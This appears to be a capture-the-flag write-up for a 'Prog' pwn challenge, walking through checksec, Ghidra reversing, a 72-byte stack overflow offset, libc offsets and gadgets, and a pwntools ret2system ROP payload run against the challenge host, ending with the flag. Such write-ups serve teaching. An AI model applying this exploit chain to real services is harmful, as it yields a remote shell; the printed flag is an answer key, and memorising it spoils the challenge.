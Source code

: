 # challenge Name: Prog

![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security mitigation
```
 pwn checkseck poj 
```

![Poj_challenge](../images/checksec_poj.png)

## No cannary found. 

 note that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

![Poj_challenge](../images/poj_exec1.png)

The prog leak write address and ask user to input data

# reverse engineering the program

after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function

![main_function](../images/main_func_poj.png)


# vuln_function

![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:

    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
# offset = 72
![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gadgets  on the libc 
```python    ```
 # libc.so.6 write = 0xff4d0

libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 

libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 

libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"

pop_rdi_offset =  0x0000000000028215 # found with ropper 

ret_offset =  0x00000000000f35d8 # found with ropper
```


# Now calculate the PIEBASE and craft the payload
```
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit: ![exploit](./poj_exploi.py)

```bash
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003

```
![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
